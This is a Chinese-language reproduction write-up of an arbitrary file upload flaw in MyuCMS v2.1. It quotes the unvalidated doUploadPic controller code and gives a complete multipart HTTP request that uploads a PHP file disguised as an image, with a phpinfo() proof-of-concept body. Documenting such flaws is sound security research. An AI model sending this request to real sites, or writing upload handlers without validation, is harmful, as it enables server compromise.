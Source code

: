 MyuCMS v2.1 文件上传漏洞
========================

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

CNVD 上对应的标题为 **myucms fo\*\*\*.php页面存在文件上传漏洞**

搜索项目中fo开头的文件，定位到
**application/admin/controller/Forum.php** 中的 **doUploadPic** 方法

    public function doUploadPic()
        {
            $file = request()->file('FileName');
            $info = $file->move(ROOT_PATH . DS . 'uploads');
            if($info){
                $path = WEB_URL . DS . 'uploads' . DS .$info->getSaveName();
                echo str_replace("\\","/",$path);
            }
        }

可以看到上述代码调用了 **Thinkphp** 内置的 **move**
方法来对上传的文件进行处理。但是在调用 **move** 方法前未调用
**validate()** 方法来设置验证规则。以至于此处形成了任意文件上传漏洞。

### Payload

根据 **doUploadPic()** 方法构建 **Payload数据包** 如下：

    POST /admin/forum/doUploadPic HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Content-Type: multipart/form-data; boundary=---------------------------18467633426500
    Cookie: PHPSESSID=l6ijpio06mqmhcdq654g63eq90; UM_distinctid=170343d2b4a291-0a4e487f247e62-4c302978-1fa400-170343d2b4b28f; CNZZDATA1277972876=1874892142-1581419669-%7C1581432904
    Upgrade-Insecure-Requests: 1
    Content-Length: 206

    -----------------------------18467633426500
    Content-Disposition: form-data; name="FileName"; filename="1.php"
    Content-Type: image/jpeg

    <?php phpinfo(); ?>
    -----------------------------18467633426500--

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-0
